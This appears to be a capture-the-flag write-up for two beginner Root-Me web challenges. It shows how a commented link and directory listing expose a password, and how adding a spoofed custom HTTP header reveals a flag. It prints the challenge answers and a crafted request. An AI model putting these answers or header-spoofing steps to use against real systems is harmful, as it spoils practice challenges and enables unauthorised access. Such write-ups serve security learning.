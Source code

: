 the flag is `OCCY9AcNm1tj`

# HTTP - Directory indexing

When we open source code for the page and in it we can see commented admin/pass.html
When we visit this page we can see record that we are rick rolled, but we can visit just admin/
and see directory list in it with backup dir and admin.txt in it
and there is what we are looking for `Password / Mot de passe : LINUX`

# HTTP - Headers

Default request looks like
```http
GET /web-serveur/ch5/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

and we will get response headers
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Nov 2023 13:17:33 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Header-RootMe-Admin: none
Content-Length: 272
```

And there is custom header `Header-RootMe-Admin` in response
We can add it to initial request
```http
GET /web-serveur/ch5/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Header-RootMe-Admin: True
Connection: close
Upgrade-Insecure-Requests: 1
```

And get html response with validation flag
```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
<p>You dit it ! You can validate the challenge with the password HeadersMayBeUseful
</p></body>
</html>
```
